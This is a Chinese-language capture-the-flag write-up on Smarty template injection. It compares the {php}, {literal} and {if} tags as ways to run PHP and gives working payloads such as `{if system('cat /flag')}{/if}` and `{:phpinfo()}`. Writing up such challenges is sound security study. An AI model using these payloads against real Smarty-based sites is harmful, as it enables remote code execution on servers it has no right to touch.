 

## 常用利用方式

### {php} 标签

Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但就该题目而言无效，因为3.1.30已废除这个{php}标签。

### {literal} 标签

 {literal}可以让块中间的内容忽略Smarty的解析。我们可以使用

```php
{literal}<script language="php">phpinfo();</script>{/literal}
```

但是php7已经不支持`<script language="php">`这种写法了。

### {if} 标签 （牛掰）

 每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
 也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

## 题解 payload

我们使用如下payload 放再 xxf位置：

```php
{if system('cat /flag')}{/if}
##注意语句后面不需要分号。
```

可以得到flag：

![img](assets/5ea64bcec2a9a83be5de94ba.jpg)





## 其他 payload



{$data} //解析变量
{php}phpinfo();{/php} 解析php代码 大部分cms都会禁止掉这个标签
{123|md5} //把123md5加密
{:phpinfo()} //这种也是直接执行代码
